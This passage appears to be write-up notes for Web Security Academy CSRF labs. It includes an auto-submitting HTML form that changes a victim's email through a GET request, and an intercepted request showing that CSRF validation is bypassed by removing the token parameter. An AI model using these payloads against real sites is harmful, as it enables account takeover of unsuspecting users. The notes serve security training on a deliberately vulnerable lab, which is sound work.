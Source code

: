 Solution: As hinted in the lab description, set the HTTP request method to GET and set the appropriate url parameters

Body:

```
<html>
    <body>
        <form action="https://0aab00d304b08972c0739722000d00b7.web-security-academy.net/my-account/change-email?email=zxczxczxczxc@cxcxc.com" method="GET">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### Validation of CSRF token depends on token being present

Intercepted Request:

```
POST /my-account/change-email HTTP/1.1
Host: 0a9f002104c14a87c02b0da400b2001d.web-security-academy.net
Cookie: session=nAtnVy1F7CqnwPBpbGnjYl8SOkl4SgYz
Content-Length: 57
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a9f002104c14a87c02b0da400b2001d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9f002104c14a87c02b0da400b2001d.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

email=asd%40asd.com <- remove the csrf parameter and it should still work fine
```

Solution: As hinted in the lab description, remove the csrf body parameter to bypass the csrf validation
